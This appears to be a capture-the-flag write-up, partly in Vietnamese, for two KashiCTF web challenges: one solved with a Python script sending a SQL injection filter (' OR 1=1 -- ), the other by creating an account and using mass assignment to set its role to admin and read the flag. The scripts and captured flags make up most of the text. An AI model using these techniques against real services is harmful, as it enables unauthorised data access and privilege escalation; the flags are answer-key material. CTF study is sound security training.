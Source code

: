 # Web

## Corporate Life 1
### Payload
```python
import httpx

base_url = "http://kashictf.iitbhucybersec.in:65107/api"

payload = {"filter": "' OR 1=1 -- "}

response = httpx.post(base_url + "/list-v2", json=payload)

if response.status_code == 200:
    with open("output.txt", "w") as file:
        file.write(response.text)
    print("Response written to 'output.txt'")
else:
    print(f"Request failed with status code: {response.status_code}")
```
Output:
`{"employee_name":"peter.johnson","request_detail":"Shitty job, I hate working here, I will leak all important information like KashiCTF{s4m3_old_c0rp0_l1f3_5WjgcCa5}"`

**Kết quả:**
```
KashiCTF{s4m3_old_c0rp0_l1f3_5WjgcCa5}
```

## SuperFastAPI

### Tìm endpoint
Dùng redoc để tìm tài liệu API:

```
http://kashictf.iitbhucybersec.in:35798/redoc
```

### Phát hiện các endpoint quan trọng:

- `/create/{username}` → Tạo tài khoản
- `/update/{username}` → Cập nhật thông tin tài khoản
- `/flag/{username}` → Lấy flag

Tạo tài khoản
Gửi request để tạo tài khoản của mình:

```python
import requests

username = "abc"
url = f"http://kashictf.iitbhucybersec.in:35798/create/{username}"
headers = {
    "Content-Type": "application/json"
}
data = {
    "fname": "John",
    "lname": "Doe",
    "email": "john@example.com",
    "gender": "male"
}

response = requests.post(url, headers=headers, json=data)
print(response.status_code, response.text)

```


Sửa role và lấy flag:

```python
import requests

username = "abc"
update_url = f"http://kashictf.iitbhucybersec.in:35798/update/{username}"
flag_url = f"http://kashictf.iitbhucybersec.in:35798/flag/{username}"

headers = {
    "Content-Type": "application/json"
}

update_data = {
    "role": "admin"
}

update_response = requests.put(update_url, headers=headers, json=update_data)
print("[+] Update Response:", update_response.status_code, update_response.text)

if update_response.status_code == 200:
    flag_response = requests.get(flag_url)
    print("[+] Flag:", flag_response.text)
else:
    print("[-] Error!")

```

**Kết quả**:
```
KashiCTF{m455_4551gnm3n7_ftw_LBBJ23ZSV}
```
